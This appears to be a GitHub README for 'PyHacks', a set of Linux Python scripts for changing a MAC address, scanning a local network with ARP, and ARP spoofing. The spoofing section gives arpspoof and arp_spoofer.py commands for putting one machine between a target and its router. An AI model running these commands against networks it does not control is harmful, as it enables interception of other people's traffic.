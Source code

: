 ## PyHacks

This PyHacks repository contains more networking and hacking related python scripts for linux system

---
1. mac_changer.py

this programs helps to change your MAC address (MEDIA ACCESS CONTROL) for your devices using python in ` linux [only]`
`prerequisites : python3`
get interface name for the devices using `ifconfig`
run this py script as root user , use this cmd  to get root privilege ` sudo su ` and specify interface and new mac address
`python3 mac_changer --interface wlan1 --mac 11:22:33:44:55:66`

```
shell > python3 mac_changer.py --help

python3 mac_changer --help
Usage: mac_changer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface=INTERFACE
                        Used to select Interface for changing MAC address
  -m NEW_MAC, --mac=NEW_MAC
                        Used to select New MAC addresss

````
this scripts just run linux cmds in background for changing current mac address so this script works only on linux

[FAQ]
 if use python2 to run this script `subprocess.check_output()` and `subprocess.run()`is not defined in python2 , then install python3 `sudo apt install python3`
 subprocess.call() has been changed to subprocess.run() in python3
 ```
File "mac_changer.py", line 29, in get_mac_address
    ifconfig_result =  str(subprocess.check_output(["ifconfig",options.interface]),'ascii')

```
---
### Network Scanner

This Program helps to discover devices in your wifi network

- Connect the Target Wifi Network with your devices , then cmd
`ifconfig` and get the ip address (inet) eg: `192.168.1.10`

```py
python3 network_scanner  --range 192.168.1.1/24
```
This Program , Sends packets to `192.168.1.1` to `192.168.1.254`
Print the discovered Devices ip_address and MAC_address in that target network

[FAQs] if get `ImportError: No module named scapy.all` , then install scapy module 
```
pip install scapy
```
```
Usage: network_scanner.py [options]

Options:
  -h, --help            show this help message and exit
  -r RANGE, --range=RANGE
                        Use -r or --range to Scan Your Wifi Network
```

Network Scanning Using ARP

ARP Protocol is a protocol for mapping IP address to a physical machine that is recognised in the local network

ARP Illustration
- If A , B , C , D , ROUTER  is a network `192.168.43.1/24`
- A is Our machine , which says who has --range `192.168.43.1/24` IP this is ARP request , sends to devices in that network
- C Responds for that request as ARP Response  , like I have `192.168.43.7`  and My MAC address  : `00:11:22:33:44:45` for every other packet also

---
### ARP Spoofer
It's a type of attack in which a macilious actor sends false ARP message over a local network

##### Pre Exisitng ARP Spoofing Script,
Let ARP Spoofing Using `arpspoof` from `dsniff` tool
First Scan The Local Network and discover Devices over that network , get target machine and router ip address
Let assume Target be a windows machine, 
In cmd prompt , note mac address of router using `arp -a` cmd 
Open 2 Terminal  , this required root privilege 
`arpspoof -i wlan0 -t 192.168.0.143 192.168.0.1`
`arpspoof -i wlano0 -t 192.168.0.1 192.168.0.143`


Note Mac Address of Router `arp -a` , Mac Address of Router was changed to Mac address of our machine.

**To run the script**
```
shell > python3 arp_spoofer.py --help
python3 arp_spoofer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -t TARGET_IP , --target=TARGET_IP
                        Used to select Target Machine IP Address 
  -s SPOOF_IP , --spoof=SPOOF_IP
                        Used to select Spoof Machine IP Address (Router)
````

Spoofing Machine is Network Router Scan the network using `network_scanner.py` , find ip address , always router ip_address will be `XXX.XXX.X.1` it starts with 1
```py
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
``` 

---
